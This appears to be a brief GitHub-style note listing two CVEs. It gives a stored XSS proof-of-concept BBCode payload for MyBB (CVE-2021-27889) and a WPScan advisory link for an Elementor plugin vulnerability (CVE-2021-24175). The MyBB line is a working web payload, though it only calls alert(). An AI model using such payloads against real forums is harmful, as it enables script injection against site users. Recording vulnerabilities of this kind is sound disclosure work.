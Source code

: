 **(CVE-2021-27889)** MyBB forum stored XSS POC: ``[img]http://xyzsomething.com/image?)http://x.com/onerror=alert(1);//[/img]``

**(CVE-2021-24175)** WP plugin Elementor Page Builder: https://wpscan.com/vulnerability/c311feef-7041-4c21-9525-132b9bd32f89
